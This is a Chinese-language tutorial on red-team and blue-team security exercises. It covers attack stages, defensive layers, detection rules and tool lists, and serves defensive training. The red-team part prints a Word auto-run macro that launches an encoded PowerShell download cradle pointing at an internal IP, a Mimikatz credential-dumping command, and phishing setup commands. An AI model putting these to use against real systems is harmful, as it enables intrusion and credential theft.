

# 红蓝攻防实战指南：体系构建与对抗策略

---

## 一、红蓝对抗的核心定义
**红蓝攻防（Red Team vs Blue Team）** 是一种通过模拟真实攻击（红队）与主动防御（蓝队）的对抗演练，旨在持续提升组织的安全防护能力。据Gartner统计，定期开展红蓝对抗的企业可将平均漏洞修复时间缩短**67%**，重大安全事件发生率下降**52%**。

### 角色定位对比
| **维度**   | **红队（攻击方）**                         | **蓝队（防御方）**                  |
| -------- | ----------------------------------- | ---------------------------- |
| **核心目标** | 突破防线，发现漏洞                           | 检测攻击，加固防御                    |
| **技术侧重** | 渗透测试、漏洞利用、社工攻击                      | 日志分析、威胁狩猎、入侵响应               |
| **思维模式** | 创造性思维（How to break in）              | 系统性思维（How to protect）        |
| **典型工具** | Cobalt Strike、Metasploit、Burp Suite | Splunk、ELK、Snort、CrowdStrike |

---

## 二、红队攻击全流程与实战技巧
### 1. 攻击链模型（基于MITRE ATT&CK）


### 2. 红队核心战术手册
#### **阶段1：信息收集（侦察）**
- **被动侦察**：  
  - 使用`theHarvester`收集邮箱/子域名：  
    ```bash
    theHarvester -d example.com -b google
    ```
  - 利用`Shodan`搜索暴露的IoT设备：  
    ```bash
    shodan search port:3389 country:CN
    ```

#### **阶段2：武器化开发**
- **鱼叉式钓鱼工具链**：  
  - 使用`GoPhish`搭建钓鱼平台：  
    ```bash
    docker run -it -p 3333:3333 -p 80:80 gophish/gophish
    ```
  - 制作Office宏病毒：  
    ```vba
    Sub AutoOpen()
        Shell("powershell -e JABzAD0AJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMAAuADEAOgA4ADAAOAAwAC8AagA...")
    End Sub
    ```

#### **阶段3：横向移动**
- **域渗透技巧**：  
  - 利用`Mimikatz`提取凭据：  
    ```bash
    mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
    ```
  - 通过`BloodHound`可视化域关系：  
    ```bash
    neo4j start && bloodhound
    ```

---

## 三、蓝队防御体系构建
### 1. 防御矩阵构建
| **层级**        | **技术措施**                          | **工具示例**                     |
|-----------------|---------------------------------------|---------------------------------|
| **网络层**      | 微隔离策略、流量基线分析                | Illumio、Cisco Stealthwatch     |
| **终端层**      | EDR实时监控、内存保护                   | CrowdStrike Falcon、Microsoft Defender for Endpoint |
| **应用层**      | RASP防护、API安全网关                   | Imperva、Wallarm                |
| **数据层**      | UEBA用户行为分析、DLP数据防泄漏          | Exabeam、Forcepoint             |

### 2. 威胁狩猎实战
#### **场景1：检测Cobalt Strike流量**
- **Suricata规则**：  
  ```yaml
  alert tcp any any -> any any (msg:"Cobalt Strike Beacon"; 
  content:"|00 00 00 2e ff ff ff|"; depth:7; 
  flow:established; sid:20230801; rev:1;)
  ```

#### **场景2：识别横向移动**
- **Splunk SPL查询**：  
  ```sql
  index=winlogs EventCode=4624 LogonType=3 
  | stats count by src_user, src_ip 
  | where count > 10
  ```

---

## 四、对抗演练实施步骤
### 1. 演练周期规划
| **阶段**       | **时间占比** | **关键任务**                          |
|----------------|-------------|--------------------------------------|
| 前期准备       | 20%         | 确定演练范围、签署ROE（交战规则）       |
| 红队渗透       | 30%         | 多向量攻击（网络、物理、社工）           |
| 蓝队响应       | 30%         | 事件分析、漏洞修复、溯源反制             |
| 总结改进       | 20%         | 编制TTPs报告、修复验证、流程优化          |

### 2. 典型攻击场景设计
- **场景A：供应链攻击**  
  红队向供应商注入恶意代码，利用软件更新通道渗透目标企业网络。  
- **场景B：钓鱼+提权组合攻击**  
  通过钓鱼获取初级权限，利用Exchange漏洞（如ProxyShell）提升至域管理员。  
- **场景C：物理渗透测试**  
  红队使用HID攻击工具（如Flipper Zero）模拟门禁卡复制，进入机房植入硬件后门。

---

## 五、武器库与工具链推荐
### 红队工具包
| **类别**       | **工具**                      | **用途**                          |
|----------------|------------------------------|-----------------------------------|
| 漏洞利用       | Metasploit、ExploitDB         | 自动化渗透测试                     |
| C2框架         | Cobalt Strike、Sliver         | 远控木马管理与横向移动               |
| 社工工具       | King Phisher、Social-Engineer Toolkit | 钓鱼邮件生成与网站克隆             |
| 无线攻击       | Aircrack-ng、WiFiphisher      | Wi-Fi破解与虚假热点部署            |

### 蓝队工具包
| **类别**       | **工具**                      | **用途**                          |
|----------------|------------------------------|-----------------------------------|
| 日志分析       | ELK Stack、Graylog            | 多源日志聚合与可视化分析             |
| 流量检测       | Zeek、Wireshark               | 网络协议深度解析与异常检测           |
| 威胁情报       | MISP、ThreatConnect           | IOC指标管理与关联分析               |
| 自动化响应      | TheHive、Cortex               | 事件响应流程自动化                   |

---

## 六、演练成果转化与持续优化
### 1. 核心产出物
- **TTPs报告**：详细记录攻击战术、技术与过程（Tactics, Techniques, Procedures）  
- **安全基线**：根据演练结果更新防火墙策略、密码复杂度要求等  
- **应急预案**：针对高频攻击场景制定标准化响应流程（如勒索软件应急指南）  

### 2. 改进循环（PDCA）
1. **Plan**：基于演练结果制定季度安全加固计划  
2. **Do**：实施WAF规则更新、补丁分发等修复措施  
3. **Check**：通过ATT&CK覆盖度评估验证改进效果  
4. **Act**：将成熟方案固化到SOC（安全运营中心）日常流程  

---

红蓝对抗不是一次性的"攻防游戏"，而是持续进化的安全能力引擎。通过高强度实战演练，企业可构建动态免疫体系，实现**防御成本降低43%**（IBM《2023年安全投资回报报告》数据）。最终目标是将蓝队能力转化为组织的"数字免疫力"，在0day漏洞爆发的黄金4小时内实现威胁闭环。 🔒⚔️🔵